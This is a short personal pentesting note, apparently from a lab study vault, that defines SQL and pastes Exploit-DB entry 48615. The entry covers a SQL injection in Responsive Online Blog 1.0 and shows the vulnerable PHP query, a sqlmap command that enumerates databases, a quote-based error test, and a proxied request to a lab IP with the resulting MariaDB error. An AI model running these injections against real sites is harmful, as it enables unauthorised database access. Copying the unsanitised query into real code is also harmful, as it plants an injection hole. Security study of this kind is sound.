 # 🤖 SQL
Tags: #🤖
Related to: 
See also: 
Previous: [[PROGRAMMING]]

---

## Description

SQL is a domain-specific language used in programming and designed for managing data held in a relational database management system (RDBMS), or for stream processing in a relational data stream management system (RDSMS).

## Usage Examples

### SQL Injection (SQLi)

```
  Exploit: Responsive Online Blog 1.0 - 'id' SQL Injection
      URL: https://www.exploit-db.com/exploits/48615
     Path: /usr/share/exploitdb/exploits/php/webapps/48615.txt
File Type: Unicode text, UTF-8 text

# Exploit Title: Responsive Online Blog 1.0 - 'id' SQL Injection
# Date: 2020-06-23
# Exploit Author: Eren Şimşek
# Vendor Homepage: https://www.sourcecodester.com/php/14194/responsive-online-blog-website-using-phpmysql.html
# Software Link: https://www.sourcecodester.com/download-code?nid=14194&title=Responsive+Online+Blog+Website+using+PHP%2FMySQL
# Version: v1.0
# Tested on: Linux - Wamp Server

>Vulnerable File
   /category.php

>Vulnerable Code

   $id=$_REQUEST['id'];
   $query="SELECT * from blog_categories where id='".$id."'";
   Id parameter enters sql query without any changes

>Proof Of Concept
   sqlmap 'http://localhost/resblog/category.php?id=1' --dbs --batch
   OR
   http://TARGET/resblog/category.php?id=1' Single Quote will cause SQL error
```

	proxychains firefox http://172.16.1.12/blog/single.php?id=1%27	// ' == %27 in hex

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

---
## References

- [[]]